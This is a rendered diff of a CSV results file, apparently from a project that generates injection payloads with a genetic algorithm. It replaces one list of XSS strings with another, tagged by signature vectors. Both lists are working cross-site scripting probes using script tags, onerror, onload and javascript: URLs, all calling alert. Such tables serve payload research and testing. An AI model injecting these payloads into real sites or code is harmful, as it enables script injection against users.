

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/ga_result_llm.csv, drawn as a sheet.

```diff
--- a/result/ga_result_llm.csv
+++ b/result/ga_result_llm.csv
@@ -1,13 +1,14 @@
 eval_place,sig_vector,sig_string
-body_tag,,"1. ""><script>alert(1)</script>
-<img src=x onerror=alert(1)>
-<svg><script>alert(1)</script>
-';alert(1);//
-<iframe src=""javascript:alert(1)"">
-<script>alert(String.fromCharCode(88,83,83))</script>
-<body/onload=alert(1)>
-<script>alert`1`</script>
-<svg/onload=alert(1)>
-<img src=""x:x"" onerror=""alert(1)"">
-<svg><animate onbegin=alert(1)>
-<img src=1 href=1 onerror=""alert(1"
+body_tag,"[0, 1, 2]","""<script>alert('XSS')</script>"
+body_tag,[3],<img src='x' onerror='alert(1)'>
+body_tag,"[0, 1, 2]",'><script>alert('XSS')</script>
+body_tag,"[0, 1, 2]","""><script>alert('XSS')</script>"
+body_tag,[3],'><img src='x' onerror='alert(1)'>
+body_tag,[3],"""><img src='x' onerror='alert(1)'>"
+body_tag,[4],"<body onload='alert(""XSS"")'>"
+body_tag,[5],<svg onload='alert(1)'>
+body_tag,"[6, 0, 1, 2]",<input type='text' value=''><script>alert('XSS')</script>
+body_tag,"[6, 3]",<input type='text' value=''><img src='x' onerror='alert(1)'>
+body_tag,[7],<div style='background:url(javascript:alert(1))'>
+body_tag,[8],<iframe src='javascript:alert(1)'>
+body_tag,[9],<a href='
```
Also changed, not shown: gene/gene_list.csv, 2 other files.
